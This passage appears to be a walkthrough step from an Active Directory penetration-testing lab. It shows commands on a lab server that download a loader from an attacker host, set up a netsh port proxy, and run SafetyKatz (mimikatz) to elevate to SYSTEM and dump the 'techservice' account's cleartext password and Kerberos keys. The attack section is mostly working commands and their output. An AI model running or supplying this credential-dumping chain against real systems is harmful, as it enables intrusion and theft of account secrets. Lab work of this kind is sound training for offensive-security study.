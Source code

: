 - **Extract Credentials of `techservice` and `MGMTSRV$` from Memory on `mgmtsrv.tech.finance.corp`**

![HFS - Loader.exe, SafetyKatz.exe](learning_objective_07_hfs_loader_safetykatz.png)

![mgmtsrv | administrator #>](https://custom-icon-badges.demolab.com/badge/mgmtsrv-administrator%20[%23>]-64b5f6?logo=windows11&logoColor=white)

`iwr http://172.16.100.1/Loader.exe -OutFile C:\Users\Public\Loader.exe`

`netsh interface portproxy add v4tov4 listenport=1234 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.1`

`C:\Users\Public\Loader.exe -path http://127.0.0.1:1234/SafetyKatz.exe -args "token::elevate" "vault::cred /patch" "exit"`:
```
[SNIP]

mimikatz(commandline) # token::elevate📌
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

588     {0;000003e7} 1 D 18373          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !📌
 * Process Token : {0;0028e875} 0 D 2685490     TECH\Administrator      S-1-5-21-1325336202-3661212667-302732393-500            (12g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 2701727     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz # vault::cred /patch
```
❌

`C:\Users\Public\Loader.exe -path http://127.0.0.1:1234/SafetyKatz.exe exe -args "sekurlsa::evasive-keys" "exit"`:
```
[SNIP]

mimikatz(commandline) # sekurlsa::evasive-keys📌

[SNIP]

Authentication Id : 0 ; 93339 (00000000:00016c9b)
Session           : Service from 0
User Name         : techservice👤
Domain            : TECH
Logon Server      : TECH-DC
Logon Time        : 3/11/2025 6:54:59 AM
SID               : S-1-5-21-1325336202-3661212667-302732393-1109

         * Username : techservice
         * Domain   : TECH.FINANCE.CORP
         * Password : Agent for Server1!🔑
         * Key List :
           aes256_hmac       7f6825f607e9474bcd6b9c684dc70f7c1ca977ade7bfd2ad152fd54968349deb🔑
           aes128_hmac       1e88fc138cbb482e14a836ab47e22816
           rc4_hmac_nt       ac25af07540962863d18c6f924ee8ff3
           rc4_hmac_old      ac25af07540962863d18c6f924ee8ff3
           rc4_md4           ac25af07540962863d18c6f924ee8ff3
           rc4_hmac_nt_exp   ac25af07540962863d18c6f924ee8ff3
           rc4_hmac_old_exp  ac25af07540962863d18c6f924ee8ff3

[SNIP]

Authentication Id : 0 ; 999 (00000000:000003e7)
```